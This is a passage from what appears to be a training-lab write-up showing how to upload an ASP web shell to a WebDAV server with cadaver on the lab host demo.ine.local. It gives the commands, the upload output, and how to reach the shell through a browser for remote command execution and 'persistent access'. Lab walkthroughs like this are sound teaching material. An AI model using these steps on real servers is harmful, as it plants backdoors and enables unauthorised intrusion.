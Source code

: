 
### **Example 3: Web Shell Upload for Command Execution**

**📝 Lab Context:** Deploying a web shell for remote command execution based on successful file type analysis from DavTest results.

#### **Locating and Preparing Web Shell:**
```bash
# First, check available web shells on attacking machine
dav:/webdav/> !ls /usr/share/webshells/asp/
cmd.asp  cmd.aspx  cmdasp.asp  webshell.asp

# Set local directory for easier file access
dav:/webdav/> lcd /usr/share/webshells/asp/
Local directory is now: /usr/share/webshells/asp/
```

#### **Web Shell Upload Process:**
```bash
# Upload ASP web shell (from lab screenshots)
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp
Uploading `/usr/share/webshells/asp/webshell.asp` to `/webdav/webshell.asp`:
Progress: [=============================>] 100.0% of 1362 bytes succeeded.

# Verify upload success
dav:/webdav/> ls
Listing collection `/webdav/`: succeeded.
Coll:   DavTestDir_AqOe5dcKMtF                0  Jul 10 09:39
        AttackDefense.txt                    13  Jan  2  2021
        web.config                          168  Jan  2  2021
        webshell.asp                       1362 Jul 10 09:42
```

**✅ Upload Verification Analysis:**
- **File Size:** 1362 bytes transferred successfully (100% completion)
- **Timestamp:** Upload completed at Jul 10 09:42 (document timing for logs)
- **Location:** File placed in root WebDAV directory for easy access
- **File Type:** ASP extension maintained (critical for server-side execution)
- **Naming:** Clear filename chosen for identification during exploitation

#### **Testing Web Shell Access:**
```bash
# Exit cadaver to test web shell via browser
dav:/webdav/> quit
Connection to `demo.ine.local' closed.

# Access web shell through browser
# URL: http://demo.ine.local/webdav/webshell.asp
# Expected: Interactive command execution interface
```

**🔒 Exploitation Verification:**
- Clean exit from cadaver session
- Web shell accessible via standard HTTP request
- Command execution interface available for system interaction
- Persistent access established for continued exploitation

---